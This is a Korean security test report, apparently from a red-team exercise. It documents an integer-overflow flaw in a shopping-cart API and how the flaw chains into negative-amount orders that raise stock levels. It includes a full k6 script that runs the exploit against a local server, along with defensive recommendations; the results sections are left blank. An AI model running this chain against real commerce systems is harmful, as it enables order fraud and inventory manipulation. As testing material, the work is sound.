

# 부하테스트 리포트
  
---  

## 1. 시나리오 상세

| ID          | 시나리오명                 | 키워드                           | 엔드포인트                     | 목표 가설                                                                                        | 가설 근거(코드)                                                                                                                                                                | 트래픽/패턴                                | 예상 문제점                              | 기술적 근거                                                                                                                         |
| ----------- | --------------------- | ----------------------------- | ------------------------- | -------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------- | ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| **ATK-F01** | 장바구니 수량 정수 오버플로우      | `입력검증누락` `오버플로우` `정합성`        | `POST /api/v1/cart/items` | `quantity` 상한이 없어 `Integer.MAX_VALUE`를 반복 입력할 수 있고, 같은 상품 수량 누적 중 `int` 범위를 넘으면 음수 수량이 저장된다. | `AddCartItemRequest.quantity`는 `@Min(1)`만 있고 `@Max` 없음<br>`CartItem.addQuantity()`가 `this.quantity += quantity`로 단순 누적<br>`CartService.addItem()`이 누적 결과를 그대로 저장·응답      | 동일 사용자, 동일 상품 반복 추가 / Single user, 6회 | 장바구니 수량·총액 음수화, 후속 주문으로 취약점 전파      | 실측: `quantity=2147483647` 반복 추가 후 `cartItemId=114`, `quantity=-6`<br>`GET /cart` 기준 `totalAmount=-213499.74`                   |
| **ATK-A01** | 음수 수량 주문 생성 및 재고 부풀리기 | `입력검증누락` `정합성` `재고조작` `오버플로우` | `POST /api/v1/orders`     | 장바구니에 음수 수량이 저장된 상태에서 주문 API가 수량을 재검증하지 않으면 음수 금액 주문이 생성되고, 재고 차감 로직은 오히려 재고를 증가시킨다.         | `CreateOrderRequest`는 `cartItemIds`만 검증<br>`OrderService.createOrder()`가 `cartItem.getQuantity()`를 그대로 재고 차감·금액 계산에 사용<br>`Product.deductStock()`에 `quantity <= 0` 방어 없음 | ATK-F01 결과 사용 / Single user, 1회       | 음수 주문 생성, 상품 재고 임의 증가, 결제·정산 데이터 오염 | 실측: `cartItemId=114`, `quantity=-6`으로 주문 생성 시 `201 Created`<br>`totalAmount=-287104.20`, `status=PENDING`<br>상품 재고 `279 → 285` |
  
---  

## 2. 시퀀스 다이어그램


### 로컬 테스트 데이터

**장바구니 물품 추가 6회 반복 — `POST /api/v1/cart/items`**

| 요청  | quantity 누적 연산                | 응답 quantity   | 오버플로우 |
| --- | ----------------------------- | ------------- | ----- |
| 1회  | 0 + 2,147,483,647             | 2,147,483,647 | -     |
| 2회  | 2,147,483,647 + 2,147,483,647 | **-2**        | ✅     |
| 3회  | -2 + 2,147,483,647            | 2,147,483,645 | -     |
| 4회  | 2,147,483,645 + 2,147,483,647 | **-4**        | ✅     |
| 5회  | -4 + 2,147,483,647            | 2,147,483,643 | -     |
| 6회  | 2,147,483,643 + 2,147,483,647 | **-6**        | ✅     |

**주문 생성 — `POST /api/v1/orders`**

| 항목                    | 값               |
| --------------------- | --------------- |
| items[0].quantity     | -6              |
| items[0].productPrice | 49,514.13       |
| order.totalAmount     | **-297,084.78** |

### 정합성 깨짐 원인 — int 오버플로우

```
  0111 1111 1111 1111 1111 1111 1111 1111   (2,147,483,647)
+ 0111 1111 1111 1111 1111 1111 1111 1111   (2,147,483,647)
─────────────────────────────────────────
  1111 1111 1111 1111 1111 1111 1111 1110   (-2)
  ↑
  부호비트 0→1 전환 = 양수→음수
```

짝수 회차마다 오버플로우가 발생하여 음수 전환. 6회 누적 후 `quantity=-6`으로 확정.

---  

## 3. 레이어별 분석

### 3-1. 애플리케이션

- **트랜잭션 범위**:
- **외부 의존성 영향**:
- **예외 처리 / 재시도 로직**:
- **코드 개선 포인트**:
- 추가 발견 이슈:

### 3-2. DB

- **락 경합 / 데드락**:
- **인덱스 / 쿼리 효율**:
- **커넥션 사용 패턴**:
- **데이터 정합성**:
- 추가 발견 이슈:

### 3-3. 인프라 & RabbitMQ

- **CPU / Memory / Disk I/O**: 해당없음
- **네트워크 / 커넥션 풀**: 해당 없음
- **RabbitMQ** (해당 시): 해당없음
- **인프라 개선 포인트**:
    - WAF/API Gateway 레벨에서 request body의 quantity 상한 필터링 (Integer.MAX_VALUE 차단)
    - 모니터링 알림: 장바구니 수량/금액이 음수인 레코드 감지 알림 추가 필요
- 추가 발견 이슈: 없음

---  

## 4. 테스트 설계

**더미 데이터 요청**: 종류 / 수량 / 특이 조건

*(예: 단일 사용자 1명, 단일 상품 1개, F01 결과를 A01이 그대로 사용하므로 cart 상태 공유 필수)*

```js
import http from 'k6/http';
import { check, sleep } from 'k6';

const BASE_URL = __ENV.BASE_URL || 'http://localhost:8080';
const INT_MAX = 2147483647;
const PRODUCT_ID = 1;
const REPEAT_COUNT = 6;
const MEMBER_ID = __ENV.MEMBER_ID || '1';

export const options = {
  scenarios: {
    overflow_chain: {
      executor: 'shared-iterations',
      vus: 1, // 가상 사용자수 
      iterations: 1, // 반복 횟수
      maxDuration: '1m',
    },
  },
  thresholds: {
    'checks': ['rate==1.0'],
  },
};

const headers = {
  'Content-Type': 'application/json',
  'X-Member-Id': MEMBER_ID,
};

export default function () {

  // =============================================
  // [Phase 1] ATK-F01 — 장바구니 수량 오버플로우
  // =============================================
  console.log('[ATK-F01] 장바구니 오버플로우 시작');

  let cartItemId = null;

  for (let i = 1; i <= REPEAT_COUNT; i++) {
    const payload = JSON.stringify({
      productId: PRODUCT_ID,
      quantity: INT_MAX,
    });

    const res = http.post(
      `${BASE_URL}/api/v1/cart/items`, payload, { headers }
    );

    check(res, {
      [`F01-${i}회 요청 성공`]: (r) => r.status === 200 || r.status === 201,
    });

    const body = JSON.parse(res.body);
    cartItemId = body.cartItemId || cartItemId;
    console.log(`  요청${i}: quantity=${body.quantity}`);
    sleep(0.3);
  }

  // 장바구니 상태 확인
  const cartRes = http.get(
    `${BASE_URL}/api/v1/cart`, { headers }
  );
  const cart = JSON.parse(cartRes.body);
  console.log(
    `  장바구니 최종: quantity=${cart.items?.[0]?.quantity}, ` +
    `totalAmount=${cart.totalAmount}`
  );

  check(cartRes, {
    'F01 검증 — quantity 음수': (r) => {
      return JSON.parse(r.body).items?.[0]?.quantity < 0;
    },
    'F01 검증 — totalAmount 음수': (r) => {
      return JSON.parse(r.body).totalAmount < 0;
    },
  });

  sleep(1);

  // =============================================
  // [Phase 2] ATK-A01 — 음수 수량 주문 생성
  // =============================================
  console.log('[ATK-A01] 음수 수량 주문 생성 시작');

  const orderPayload = JSON.stringify({
    cartItemIds: [cartItemId],
  });

  const orderRes = http.post(
    `${BASE_URL}/api/v1/orders`, orderPayload, { headers }
  );

  check(orderRes, {
    'A01 주문 생성 성공 (201)': (r) => r.status === 201,
    'A01 검증 — totalAmount 음수': (r) => {
      return JSON.parse(r.body).totalAmount < 0;
    },
    'A01 검증 — quantity 음수': (r) => {
      return JSON.parse(r.body).items?.[0]?.quantity < 0;
    },
  });

  const order = JSON.parse(orderRes.body);
  console.log(
    `  주문 결과: quantity=${order.items?.[0]?.quantity}, ` +
    `price=${order.items?.[0]?.productPrice}, ` +
    `total=${order.totalAmount}`
  );
  console.log('[완료] ATK-F01 → ATK-A01 체인 종료');
}
```  
  
---  

## 5. 실행 결과 *(공격 당일 작성)*

| 시나리오    | TPS(초당 트랜잭션 요청 수) | p95<br>(요청의 95% 처리시간) | 에러율<br>(실패 요청수/전체 요청 수) | 비고  |     |
| ------- | ----------------- | --------------------- | ----------------------- | --- | --- |
| ATK-F01 |                   |                       |                         |     |     |
| ATK-A01 |                   |                       |                         |     |     |

**Grafana 스크린샷**: TPS / 응답시간 / 에러율 / 자원사용량 (필요한 것만 첨부)

**예상 문제점 적중 여부**

- ATK-F01:
- ATK-A01:

---  

## 6. 종합 결론 & 방어팀 전달 *(공격 당일 작성)*

- **가설 적중**: ✅ / ❌ + 핵심 실측 한 줄
- **방어팀 전달**:
